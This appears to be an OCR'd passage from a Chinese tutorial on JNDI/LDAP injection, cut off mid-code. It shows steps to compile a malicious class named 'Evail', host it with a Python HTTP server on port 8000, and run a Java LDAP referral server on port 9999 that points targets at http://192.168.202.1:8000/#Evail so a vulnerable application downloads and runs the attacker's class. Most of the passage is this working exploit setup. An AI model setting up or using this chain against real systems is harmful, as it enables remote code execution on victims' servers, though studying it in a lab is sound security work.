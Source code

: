 ```java
}
```

注意用idea新建时候把自带package代码给去掉

**1.2 把恶意类编译成class文件：**

```java
javac Evail.java
```

**1.3 在恶意类class文件目录下，使用python启动http服务发布到8000端口：**

```java
python3 -m http.server 8000
```

**1.4 启动服务端，把LDAP服务发布到9999端口，服务端代码：**

```java
package com.yy.jndi.ldap;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class Server {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] argsx) {
        String[] args = new String[]{"http://192.168.202.1:8000/#Evail", "9999"};
        int port = 0;
        if (args.length < 1 || args[0].indexOf('#') < 0) {
            System.err.println(Server.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (args.length > 1) {
            port = Integer.parseInt(args[1]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
```